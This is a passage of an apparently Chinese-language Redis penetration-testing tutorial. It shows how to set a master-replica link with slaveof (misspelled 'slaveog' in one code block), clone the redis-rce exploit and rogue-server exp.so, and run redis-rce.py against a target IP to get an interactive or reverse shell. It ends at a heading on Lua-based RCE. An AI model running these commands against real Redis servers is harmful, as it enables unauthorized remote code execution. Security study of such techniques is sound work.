 然后通过 slaveof 可以设置主从状态

```bash
slaveog <主 redis ip><端口号>
```

[![](assets/1702372985-3ccfe56b53baaf09eabfd79e751a1e79.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/22.png)

这样一来数据就会自动同步了

当服务器开启主从同步后，利用脚本

```bash
git clone https://github.com/Ridter/redis-rce.git   //下载漏洞利用脚本
https://github.com/n0b0dyCN/redis-rogue-server //脚本需要调用这里的 exp.so 文件
```

将 exp.so 文件下载并放到和 redis-rce.py 同一目录下，执行命令：

```bash
python3 redis-rce.py -r <目标 ip> -L <自己 IP> -f exp.so
```

[![](assets/1702372985-39c4900964d216aeededce4d4a2646f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/23.png)

在此处：`i为交互式shell`，r 为反弹 shell，根据自己的需要选择就可以了

[![](assets/1702372985-86931b1f9a33ca5645189b2653a613be.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/24.png)

### [](#6-%E5%88%A9%E7%94%A8-redisLua-RCE "6.利用 redisLua RCE")6.利用 redisLua RCE[](#6-%E5%88%A9%E7%94%A8-redisLua-RCE)

